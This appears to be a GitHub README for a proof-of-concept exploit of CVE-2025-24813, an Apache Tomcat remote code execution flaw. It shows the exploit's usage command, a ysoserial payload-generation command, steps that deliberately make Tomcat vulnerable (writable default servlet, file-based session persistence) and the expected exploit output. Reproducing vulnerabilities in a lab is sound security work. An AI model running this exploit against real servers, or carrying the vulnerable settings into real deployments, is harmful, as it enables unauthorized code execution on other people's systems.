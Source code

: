 # CVE-2025-24813 Apache Tomcat RCE PoC
PoC for CVE-2025-24813, a Remote Code Execution (RCE) vulnerability in Apache Tomcat. 

---
## Usage
```
python3 CVE-2025-24813.py --url <target_url> // I configured the server with port 9000
```

## Environment Setup

#### Test Payload
The code already has a base64 encoded payload generated with ysoserial (https://github.com/frohoff/ysoserial) which creates a file `RCE-success` in /tmp as following:
```
java -jar ysoserial-all.jar CommonsCollections6 "touch /tmp/RCE-success" | base64 -w 0
```
#### Configuring a Vulnerable Tomcat Setup

1. Enable PUT / Write access 

   Edit `$CATALINA_HOME/conf/web.xml` to add a `readonly` parameter under the `default` servlet name section and set it to `false`.

   ```xml
       <servlet>
           <servlet-name>default</servlet-name>
           <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
           <init-param>
               <param-name>debug</param-name>
               <param-value>0</param-value>
           </init-param>
           <init-param>
               <param-name>listings</param-name>
               <param-value>false</param-value>
           </init-param>
           <init-param>
             <param-name>readonly</param-name>
             <param-value>false</param-value>
           </init-param>
           <load-on-startup>1</load-on-startup>
       </servlet>
   ```

2. Enable Session persistence
   * Part a)
   Edit `$CATALINA_HOME/conf/context.xml` and add the following setting.

   ```xml
       <Manager className="org.apache.catalina.session.PersistentManager">
         <Store className="org.apache.catalina.session.FileStore" />
       </Manager>
   ```
   * Part b)
   Edit `$CATALINA_HOME/webapps/ROOT/index.jsp` and make sure the default setting for session is not "false" or simply remove it.

   ```xml
    <%@ page session="true" pageEncoding="UTF-8" contentType="text/html; charset=UTF-8" %>
   ```
   OR
   ```xml
    <%@ page pageEncoding="UTF-8" contentType="text/html; charset=UTF-8" %>
   ```
   
4. Download dependancies to `$CATALINA_HOME/lib/`

```
cd $CATALINA_HOME/lib/
wget https[:]//repo1.maven[.]org/maven2/commons-collections/commons-collections/3.2.1/commons-collections-3.2.1.jar
wget https[:]//repo1.maven[.]org/maven2/commons-beanutils/commons-beanutils/1.9.2/commons-beanutils-1.9.2.jar
wget https[:]//repo1.maven[.]org/maven2/commons-logging/commons-logging/1.2/commons-logging-1.2.jar
```

## Output
* Successful Exploit:
```
[+] Exploit most likely succeeded
```

* Failed Exploit:
```
[-] Exploit failed with status code: {status_code}, instead of 500,409
```

